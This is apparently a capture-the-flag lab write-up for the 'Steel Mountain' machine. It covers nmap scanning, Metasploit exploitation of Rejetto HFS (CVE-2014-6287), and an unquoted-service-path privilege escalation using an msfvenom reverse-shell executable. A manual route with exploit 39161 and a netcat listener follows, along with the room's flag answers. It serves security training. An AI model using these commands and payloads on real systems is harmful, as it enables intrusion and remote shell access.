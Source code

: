 # Steel Mountain

### Introduction

**Who is employee of the month?**

Bill Harper

### Initial Access

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -sC -v -oN steel-mountain-nmap <TARGET-IP>`

[Scan results](./steel-mountain-nmap)

8080

**Take a look at the other web server. What file server is running?**

Navigate to `http://<TARGET-IP>:8080` and find a landing page for a Rejetto HTTP file server.

Rejetto HTTP File Server

**What is the CVE number to exploit this file server?**

Use `searchsploit "rejetto http file server"` to find related exploits.

First result is a Metasploit module.

2014-6287

**Use Metasploit to get an initial shell. What is the user flag?**

Set the RPORT, RHOST and LHOST options to TARGET-IP, PORT and tun0 or AttackBox IP then run 
the exploit.

Using the meterpreter shell run the search command `search -f user.txt` to find the flag.

��b04763b6fcf51fcd7c13abc7db4fd365

### Privilege Escalation

Download and upload the PowerUp script to enumerate the machine. [PowerUp link](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

To execute this type load powershell into meterpreter then enter a powershell shell by 
entering powershell_shell:

**Take close attention to the CanRestart option that is set to true. What is the name of the 
service which shows up as an unquoted service path vulnerability?**

AdvancedSystemCareService9

The CanRestart option being true lets you restart a service on the system, the directory to 
the application is also writable. You can replace the legitimate application with a 
malicious one, restart the service, which will run the infected program.

Use msfvenom to generate a reverse shell as an Windows executable.

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Upload your binary to the C:\Program Files (x86)\IObit directory where the unquoted path 
vulnerability will cause the service to execute the malicious Advanced.exe reverse shell 
instead of moving into C:\Program Files (x86)\IObit\Advanced SystemCare on a restart. 

Restart the service to get a shell as root.

```
net stop AdvancedSystemCareService9
net start AdvancedSystemCareService9
``` 

**What is the root flag?**

9af5f314f57607c00fd09803a587db80

### Access and Escalation Without Metasploit

Gain access using the same CVE but a different exploit, [number 39161](https://www.exploit-db.com/exploits/39161)

Start a web server in a directory with a netcat static binary and winPEAS.exe inside.

`python3 -m http.server <PORT>`

Edit the exploit.py to use your attacking machine's IP and the port you will use for the 
netcat listener.

Start a netcat listener on the port set in the exploit.py file

Run the exploit `python2 ./exploit.py <TARGET-IP> <TARGET-PORT>` twice, once for the nc.exe 
binary and the second time to gain a remote shell.


